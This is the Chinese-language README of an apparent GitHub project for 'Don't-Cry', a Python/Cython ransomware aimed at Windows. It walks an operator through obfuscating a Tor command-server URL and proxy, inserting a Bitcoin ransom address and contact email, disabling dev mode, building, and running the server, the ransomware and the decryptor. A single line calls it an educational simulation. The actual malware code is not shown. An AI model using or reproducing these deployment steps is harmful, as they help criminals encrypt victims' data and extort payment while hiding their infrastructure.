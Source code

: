 # Don't-Cry 勒索软件
![Python](https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white)
![Cython](https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white)
![License](https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white)
![Platform](https://img.shields.io/badge/Platform-Windows-blue)
![Status](https://img.shields.io/badge/Status-Temporarily--Inactive-orange)
![DCry](./DCRY.png)
使用 Python 编写的勒索软件 💀💀💀
## 使用方法
* 打开 [`DCry.py`](src/DCry.py) 文件。
* 使用 `dx42` 函数替换 `YOUR_URL` 变量，方法如下：
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  （先使用 `edx42` 模块中的 `ex42` 函数对你的 URL 进行编码。）
  
   示例：
    ```python
    encoded_url = ex42(b"https://your-tor-server.onion")
    YOUR_URL = dx42(encoded_url).decode()
  ```
* 同样用你的编码代理字符串替换 `YOUR_PROXY` 变量：
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* 用你的比特币地址字符串替换 `YOUR_BITCOIN_ADDRESS`。
* 用你的邮箱地址字符串替换 `YOUR_EMAIL_ADDRESS`。
* 将 `dev_mode` 设置为 `False` 来关闭开发模式。
* 使用以下命令安装所需依赖：
  ```bash
  pip install -r requirements.txt
  ```
* 使用以下命令构建 Cython 代码：
  ```bash
  python src/setup.py build_ext --inplace
  ```
* 使用以下命令运行服务器：
  ```bash
  python src/server.py
  ```
* 使用以下命令运行勒索软件：
  ```bash
  python src/DCRY.py
  ```
* 使用以下命令运行解密程序：
  ```bash
  python src/decryptor.py
  ```
## 警告
> \[!WARNING]
> 此项目仅为教育目的的勒索软件模拟。
## 许可证
* 本项目依据 [Apache License 2.0](./LICENSE) 许可协议发布。
